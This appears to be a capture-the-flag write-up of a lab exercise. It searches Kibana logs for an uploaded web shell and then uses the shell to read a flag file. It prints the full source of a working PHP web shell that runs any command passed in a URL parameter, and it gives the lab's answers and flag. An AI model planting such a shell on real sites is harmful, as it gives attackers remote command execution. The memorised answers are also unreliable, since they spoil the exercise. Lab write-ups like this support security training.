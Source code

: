 # Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

**Connection to the Machine:**
To begin, a virtual machine and AttackBox were utilized for the analysis.

**To review the logs of the attack on Frosty Pines Resorts, we had to select the "frostypines-resorts" collection within ELK**

- accessed Kibana at `http://10.10.194.231:5601/`
- opened the `Discover` tab
- chose `"frostypines-resorts"`

**website for Operation Red:**  http://frostypines.thm

shell.php:

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

---

## Answers to the given questions:

BLUE: Where was the web shell uploaded to?

Answer format: /directory/directory/directory/filename.php

```
/media/images/rooms/shell.php
```

- Given date and time needed to be used when reviewing logs: between 11:30 and 12:00 on October 3rd 2024.
- searched `shell.php` and thus found where it was uploaded to
  
![image](https://github.com/user-attachments/assets/94f9915f-259e-473a-a6c2-cedd3663285a)

---

BLUE: What IP address accessed the web shell?

```
10.11.83.34
```

- saw the `clientip` that accessed the webshell

![image](https://github.com/user-attachments/assets/ba54d726-4699-494f-9402-9bd0fc7b570c)

---

RED: What is the contents of the flag.txt?

```
THM{Gl1tch_Was_H3r3}
```

- To access `http://frostypines.thm`, we needed to reference it within our hosts file.
- To do that, I executed the following command in a terminal `echo "MACHINE_IP frostypines.thm" >> /etc/hosts`

![image](https://github.com/user-attachments/assets/d2c4593c-ab74-4a8a-b4c2-e97021f9a87b)

![image](https://github.com/user-attachments/assets/c0cbbe66-73fa-4746-94dd-90858fdd46b4)

![image](https://github.com/user-attachments/assets/4fcf24df-ad9d-4b00-b0ee-6b51a9f00119)

![image](https://github.com/user-attachments/assets/ce2d8ec8-e512-4cb7-a077-1a50745f75b7)

![image](https://github.com/user-attachments/assets/386fbfa4-5750-473f-8e2d-d9d9ccf06cdb)

Used `ls` command

![image](https://github.com/user-attachments/assets/ea548f20-3892-4d82-a4b9-76cfff9deb90)

Used `cat flag.txt` command

![image](https://github.com/user-attachments/assets/b1d5324e-8117-401c-95b5-49d301968861)

Received the flag

![image](https://github.com/user-attachments/assets/92577952-04dd-414a-ae9f-418f336205b6)

---

![image](https://github.com/user-attachments/assets/ca35e9a2-0979-4c08-9694-e7ae47382cbc)
